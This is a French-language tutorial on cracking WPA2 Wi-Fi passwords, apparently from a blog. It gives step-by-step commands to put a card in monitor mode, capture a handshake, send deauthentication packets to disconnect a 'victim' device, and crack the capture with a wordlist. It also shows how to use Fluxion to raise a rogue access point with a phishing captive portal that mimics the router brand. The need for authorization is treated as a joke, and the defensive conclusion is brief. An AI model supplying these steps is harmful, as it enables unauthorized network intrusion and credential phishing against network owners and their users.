


Comment casser un mot de passe Wifi
Introduction
La sécurité WPA2 (Wi-Fi Protected Access Version 2) est la sécurité la plus courante sur votre box internet. Il est pris en charge depuis 2005 sur Windows XP et il est encore utilisé de nos jours. WPA2 reprend la technologie WPA en y rajoutant la norme 802.11 qui assure la prise en charge de nouveaux protocols (ex:CCMP) et qui améliore la sécurité de celui-ci ( AES ).
Il existe deux types de WPA2 :
- personnel
- entreprise
L’un requière un mot de passe pour se connecter et l’autre un nom d’utilisateur en plus. Nous nous concentrons sur la version la plus courante: la première, celle basée sur l’authentification PSK
PSK est l’abréviation de Pre-Shared Key , la clé peut avoir entre 8 et 63 caractères maximum.
Pour les plus curieux, voici un schéma de la sécurité CCMP AES du WPA2 :

La chose importante à retenir est qu’un paquet réseau va transiter entre votre appareil et le routeur lors d’une connexion à votre wifi. Ce paquet, qu’on appellera “Handshake” contient le mot de passe wifi envoyé.
Malheureusement, ce paquet est chiffré et il semble impossible de récupérer son contenu par force brute (=tester toutes les combinaisons possibles.)
En effet, craquer un mot de passe de 8 caractères, prendrait environ 1 an (185 000 hachages par seconde pour 58474600000000 combinaisons) et ce ne serait que pour la taille minimale du mot de passe. Je vous laisse imaginez combien de temps il faudrait pour 64 caractères …
Nous allons donc ruser pour récupérer ce mot de passe sans y passer l’éternité.

Principe fondamental :
-
La Première étape est de récupérer ce Handshake. Pour ce faire, nous allons écouter les envoies de paquets wifi et nous allons envoyer un paquet de déconnexion à notre victime. Celle-ci se reconnectera automatiquement et nous récupérerons ce précieux paquet.
-
La Seconde étape est de casser ce Handshake . Nous verrons donc 2 méthodes différentes :
- La méthode par dictionnaire
- La méthode par SSID Spoofing .
Prérequis :
- Un wifi sous WP2 ( + autorisation si ce n’est pas le vôtre lul)
- Une carte wifi qui supporte le mode monitoring. Exemple : Cette carte de la marque Alpha à 40€
La Pratique :
Partie 1 : Le Handshake
-
Etape 1.0) Il faut installer Aircrack
sudo apt-get update && sudo apt-get install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils && sudo apt-get install -y aircrack-ng -
Etape 1.1) Passer sa carte en mode monitoring :
iwconfig
sudo airmon-ng start *INTERFACE*

Maintenant, notre carte est bien en mode écoute :

- Etape 1.2) Ecouter les réseaux disponibles :
sudo airodump-ng *Nouvelle INTERFACE*

Les BSSID de la partie supérieure correspondent à tous les wifis et les ceux de la partie inférieur correspondent aux machines détectées.
- Etape 1.3) Pour attendre l’arrivée d’une nouvelle connexion, on récupère le BSSID du wifi visé , le chanel d’écoute (Colonne CH), on spécifie le fichier de sortie et enfin l’interface :
sudo airodump-ng --bssid BSSID_DU_WIFI_VISE -c CHANNEL -w handshake_BBOX... INTERFACE
Comme ceci :

- Etape 1.4) Maintenant, nous devons attendre qu’un appareil se connecte au wifi pour récupérer le Handshake. Au lieu d’attendre, on peut forcer une déconnexion pour récupérer plus rapidement le paquet.
Dans un second terminal :
sudo aireplay-ng -0 2 -a BSSID_DE_LA_VICTIME -c BSSID_DU_WIFI INTERFACE
-0correspond à un paquet de déconnexion2correspond au nombre de paquets envoyés-crenseigne le wifi à cibler.-a BSSID_DE_LA_VICTIMErenseigne l’appareil à déconnecter, visible sur le terminal.
Comme ci-dessous :

On a :

et sur la première console on récupère le paquet !

Le fichier a garder est donc : handshakeBBOX-01.cap , les autres ne nous serviront pas .
Partie 2 : Le Craquage du Handshake
Méthode 1 ; Grâce à Aircrack
On va essayer de tester tous les mots d’un dictionnaire (wordlist) et espère que le mot de passe soit dedans. Cette technique fonctionne si l’administrateur du réseau victime a changé le mot de passe par un personnel. Voici quelques wordlists intéressantes : ici ou ici
Pour ce faire :
sudo aircrack-ng handshake.cap -w /path/wordlist.txt
Nous n’avons plus qu’a attendre et croiser les doigts pour avoir le mot de passe, il s’affichera si il est trouvé !

Méthode 2 ; Grâce à Fluxion 5
Nous allons émuler un faux wifi et forcer un utilisateur à se connecter à celui-ci . Ainsi nous récupérerons le mot de passe en clair quand il le rentrera manuellement.
Setup :
git clone https://github.com/d00b11/Fluxion-5.git
cd Fluxion-5
sudo ./Installer.sh
sudo ./fluxion.sh
(On peut aussi récupérer le Handshake depuis Fluxion mais c’est la même méthode que précédemment .)
Pour le faux point d’accès wifi :
- On sélectionne l’option numéro 1 :
Portail Captif - On sélectionne le wifi cible et l’interface utilisé (Toujours la même)
- Ensuite on sélectionne le type de point d’accès, dans notre cas je conseil la première options :
Rogue AP - hostapd - On créer le certificat ssl (Option 1 toujours)
- Finalement on choisit
disconnected - On prend l’option pour vérifier le Handshake avec
cowpatty - Puis on renseigne l’emplacement de notre fichier .cap
- Enfin on choisit la marque du routeur attaqué pour créer la page de phishing.
Et voila ! On peut attendre jusqu’à obtenir notre mot de passe !

Conclusion :
Les wifis semblent protégés mais vous n’êtes pas à l’abris d’avoir une personne malveillante connecté à vôtre point d’accès wifi en secret. Un pirate pourrait ainsi récupérer tout votre trafic réseau et donc récupérer des informations confidentielles sur vous par exemple.